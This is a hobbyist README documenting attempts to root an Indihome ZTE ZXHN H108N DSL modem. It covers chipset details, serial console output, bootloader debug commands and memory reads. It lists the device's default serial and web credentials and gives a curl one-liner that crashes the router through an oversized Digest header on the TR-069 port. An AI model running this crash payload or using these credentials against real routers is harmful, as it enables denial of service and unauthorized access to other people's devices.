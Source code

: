 # Oprek Modem Indihome Huawei ZXHN H108N

Goal:

- [ ] Gain root access (not yet works)
- [ ] Make it as Access Point, WAN From ethernet (not yet works)


If you have Broadcom version, you can use OpenWRT:
https://openwrt.org/toh/zte/zxhnh108n

This device is Ralink chipset, No root access
- Ralink RT63365E
- Ralink RT63087N
- MIPS 34K (Big Endian) (mips32_r2) (mipsbig) (mips)?

## Related Buildroot/toolchain ?

- https://github.com/executabls/dsl-n14u_gpl/wiki/Detailed-Device-Specs
- https://github.com/HyGw/test
- https://github.com/Sirherobrine23/Dir819gpl_code

## Serial Connection

No root access here.

![Huawei ZXHN H108N Serial Line](images/back-open-serial.jpg)

Password for Serial: theworldinyourhand

for web login: user: support, pwd: theworldinyourhand

**Some Information:**

```
ZTE> sys version

 RAS version: ZXHN H108NV4.0.1a_ZRQ_ID_D67                                     
 System   ID: $2.12.186.0(G94.BY.4)3.20.39.20  20140909_v004  [Sep  9 2014 10:12:52]
 romRasSize: 1664518 
 system up time:     0:10:20 (f273 ticks)
 bootbase version: VTC_SPI_8M1.16 |  2012/12/26

ZTE> sys atsh

RAS version            : ZXHN H108NV4.0.1a_ZRQ_ID_D67                                    
romRasSize             : 1664518
bootbase version       : VTC_SPI_8M1.16 |  2012/12/26
Product Model          : ZXHN H108N
Serial Number          : ZTEERQCG5V02440
MAC Address            : 343759D9B8D0
Default Country Code   : FF
Boot Module Debug Flag : 00
RomFile Version        : 16
RomFile Checksum       : 7076
RAS F/W Checksum       : 9605
SNMP MIB level & OID   : 050000000100000002000000030000000400000005
Main Feature Bits      : 86
Other Feature Bits     :
93 17 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 13 00 00 00

ZTE> sys feature

IPX: yes
IP ONLY: no
AUI: no
AB ADAPTER: no
IDSL ONLY: no
IDSL: no
INTERNAL HUB: no
VLAN_8021Q[web]: no
PKT QoS[web]: no
ACL[web]: no
Filter[web]: no
ADSL[web]: yes
USB[web]: no
Firewall[web]: no
Reverse ETH Ports[web]: no
Half Bridge[web]: no
dy.fi DNS: yes
DDNS: yes
tr069: yes

```

## Rooting

- Activate uPNP and ACS

**Vulnerabilities:**

- https://sudonull.com/post/59881-Too-many-cooks-or-hacking-the-Internet-with-TR-069
- Maybe work? https://www.exploit-db.com/exploits/27044

**Crash/Reboot PoC:**

``` bash
repeat(){ for i in {1..600}; do echo -n "$1"; done; }
curl -H "Authorization: Digest username=$(repeat x)" 192.168.1.1:7547/tr069

```
There's no file system in this firmware

# Debug Mode

Press any key on bootrom/bootloader, send `ATHE` to get help command

```
ATHE
======= Debug Command Listing =======
AT          just answer OK
ATHE          print help
ATBAx         change baudrate. 1:38.4k, 2:19.2k, 3:9.6k 4:57.6k 5:115.2k
ATENx,(y)     set BootExtension Debug Flag (y=password)
ATSE          show the seed of password generator
ATTI(h,m,s)   change system time to hour:min:sec or show current time
ATDA(y,m,d)   change system date to year/month/day or show current date
ATDS          dump RAS stack
ATDT          dump Boot Module Common Area
ATDUx,y       dump memory contents from address x for length y
ATRBx         display the  8-bit value of address x
ATRWx         display the 16-bit value of address x
ATRLx         display the 32-bit value of address x
ATGO(x)       run program at addr x or boot router
ATGR          boot router
ATGT          run Hardware Test Program
ATRTw,x,y(,z) RAM test level w, from address x to y (z iterations)
ATSH          dump manufacturer related data in ROM
ATDOx,y       download from address x for length y to PC via XMODEM
ATTD          download router configuration to PC via XMODEM
ATUR          upload router firmware to flash ROM
ATLC          upload router configuration file to flash ROM
ATXSx         xmodem select: x=0: CRC mode(default); x=1: checksum mode
ATLD          Upload Configuration File and Default ROM File to Flash
ATCD          Convert Running ROM File to Default ROM File into Flash

```

# Some Memory Dump

``` bash
# Confirming that bootloader is loaded on: BFC00000
ATRLbfc00000
BFC00000: 00000825   # move	at,zero

# SPI FLASH is mapped at 0xb0000000, you can see it on boot.log too
ATRLB0000000
```
